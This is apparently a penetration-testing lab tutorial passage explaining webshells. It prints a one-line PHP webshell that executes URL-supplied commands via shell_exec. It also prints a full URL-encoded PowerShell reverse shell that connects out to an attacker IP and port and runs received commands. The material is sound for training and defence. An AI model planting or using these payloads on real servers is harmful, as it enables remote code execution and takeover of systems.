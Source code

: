 There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. See the Upload Vulnerabilities Room for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

This will take a GET parameter in the URL and execute it on the system with shell_exec(). Essentially, what this means is that any commands we enter in the URL after ?cmd= will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the ifconfig command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. whoami, hostname, arch, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code. 

# Next Steps

